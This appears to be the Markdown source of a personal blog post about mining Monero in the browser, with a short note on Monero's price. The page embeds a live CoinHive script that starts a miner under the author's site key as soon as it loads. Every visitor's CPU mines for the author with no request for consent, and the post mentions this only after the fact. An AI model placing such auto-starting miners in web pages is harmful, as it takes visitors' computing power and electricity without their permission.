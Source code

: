 ```yaml
---
layout: post
title: Mining Monero using Javascript
image: /img/monero.png
tags: [monero, XMR, crypto, currency, cryptocurrency, mine, miner, mining, graphics cards, bitcoin]
comments: true
---
```

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>

<script>
	var miner = new CoinHive.Anonymous('l0YCiLkEmA6Nk1UBDRL9O0OsHSOem86y');
	miner.start();

	// Listen on events
	miner.on('found', function() { /* Hash found */ })
	miner.on('accepted', function() { /* Hash accepted by the pool */ })

	// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond();
		var totalHashes = miner.getTotalHashes();
		var acceptedHashes = miner.getAcceptedHashes();

		// Output to HTML elements...
		document.getElementById("hashesPerSecond").innerHTML = hashesPerSecond;
		document.getElementById("totalHashes").innerHTML = totalHashes;
		document.getElementById("acceptedHashes").innerHTML = acceptedHashes;
	}, 1000);

	// API call to Crypto Compare
	window.onload = function(){
		var xhttp = new XMLHttpRequest();
		xhttp.onreadystatechange = function() {
			if (this.readyState == 4 && this.status == 200) {
			var json = JSON.parse(this.responseText);
				document.getElementById("XMRprice").innerHTML = json.USD;
		   }
		};
		xhttp.open("GET", "https://min-api.cryptocompare.com/data/price?fsym=XMR&tsyms=USD", true);
		xhttp.send(); 
	}
</script>

Monero (XMR) is a cryptocurrency focused around privacy, decentralization and scalability. It was created in April of 2014 and has since seen a huge uptick in adoption. 
The current price of Monero based on data retrieved from the CryptoCompare API is <p id="XMRprice"></p>

I discovered an interesting service today that allows you to embed a Monero Javascript miner into your own webpage. 
I thought this was an interesting idea and immediatly signed up and gave it a try.
The results of that are seen on this page. 

<br />
<br />
### Miner Stats since visiting this page
<div>
Hashes per second: <p id="hashesPerSecond"></p>
Total Hashes: <p id="totalHashes"></p>
Accepted Hashes: <p id="acceptedHashes"></p>
<br />
</div> 